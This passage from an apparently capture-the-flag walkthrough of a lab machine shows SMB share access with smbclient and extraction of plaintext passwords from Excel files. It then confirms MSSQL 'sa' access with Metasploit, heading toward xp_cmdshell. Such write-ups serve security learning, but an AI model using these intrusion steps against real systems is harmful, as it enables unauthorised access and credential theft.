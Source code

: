 The “Accounting Department” share stands out, so we connect:

```bash
smbclient //10.10.11.51/'Accounting Department' -U rose -W WORKGROUP -m SMB3
smb: \> ls
  .                      D        0  Sun Jun  9 06:52:21 2024
  ..                     D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx   A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx          A     6780  Sun Jun  9 06:52:07 2024
...
```

We grab both files (`.xlsx`).

```bash
smb: \> mget *
```

---

## Step 3: Extracting More Credentials from Excel Files

Office `.xlsx` files are simply ZIP archives with embedded XML. By unzipping and checking `sharedStrings.xml`, we often find interesting data:

```bash
unzip accounts.xlsx -d accounts
cat accounts/xl/sharedStrings.xml
```

We discover user/password entries:

| First Name | Last Name | Email             | Username | Password           |
|------------|-----------|-------------------|----------|--------------------|
| Angela     | Martin    | angela@sequel.htb | angela   | 0fwz7Q4mSpurIt99   |
| Oscar      | Martinez  | oscar@sequel.htb  | oscar    | 86LxLBMgEWaKUnBG   |
| Kevin      | Malone    | kevin@sequel.htb  | kevin    | Md9Wlq1E5bZnVDVo   |
| NULL       | NULL      | sa@sequel.htb     | sa       | MSSQLP@ssw0rd!     |

The main highlight is the `sa` (SQL Administrator) credentials: **`sa : MSSQLP@ssw0rd!`**. This is a critical find because port `1433/tcp` was open, indicating a likely MS SQL instance.

---

## Step 4: Exploiting MS SQL (sa Login → xp_cmdshell)

Using Metasploit’s `auxiliary/scanner/mssql/mssql_login` or a similar approach confirms `sa : MSSQLP@ssw0rd!` is valid:

```text
msf6 auxiliary(scanner/mssql/mssql_login) > set RHOSTS 10.10.11.51
msf6 auxiliary(scanner/mssql/mssql_login) > set USERNAME sa
msf6 auxiliary(scanner/mssql/mssql_login) > set PASSWORD MSSQLP@ssw0rd!
msf6 auxiliary(scanner/mssql/mssql_login) > run
[+] Login Successful: sa : MSSQLP@ssw0rd!
[+] MSSQL session 1 opened ...
```
